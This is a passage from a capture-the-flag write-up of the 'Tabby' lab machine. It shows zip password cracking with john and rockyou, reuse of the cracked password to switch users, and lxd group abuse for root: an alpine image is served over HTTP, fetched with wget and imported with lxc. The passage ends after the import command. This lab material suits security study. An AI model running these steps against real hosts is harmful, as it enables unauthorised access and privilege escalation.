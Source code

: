 ### Password Cracking

The file is password protected, we can try to crack the password with john:

```
zip2john backup.zip > tabby-hash
john tabby-hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
```

We get the password as `admin@it` however there's nothing of interest in the zip file, so let's try to use the password for the user `ash` since the file bleonged to her.
```
su ash
admin@it
```

And we are successfully able to switch to user ash. Let's get the user flag.

```
cd ~
cat user.txt
```

## Privilege Escalation
---

Looking at our groups as user ash:

```
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
We can see the group `lxd` which looks interesting as my understanding of lxd is that it's similar to docker containers, so my first thought is perhaps we can mount it and have root access inside similar to privledge escalation methods with docker.

Reading up more about it here: [https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) it seems my guess was right, so i just followed the steps listed there in method 2, with some minor changes.


Following the guide, we first need to build the alpine image
```
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686
```

Then we transfer the alpine file we built to tabby, we can just host a server with `python -m SimpleHTTPServer 80` then use `wget` to download it. Then we follow the instructions to import the image, initialize it and run it where we will be root and access tabby's files which have been mounted.


Use lxc to import our alpine image:

```
lxc image import ./alpine-v3.12-x86_64-20201012_1656.tar.gz --alias myimage
```
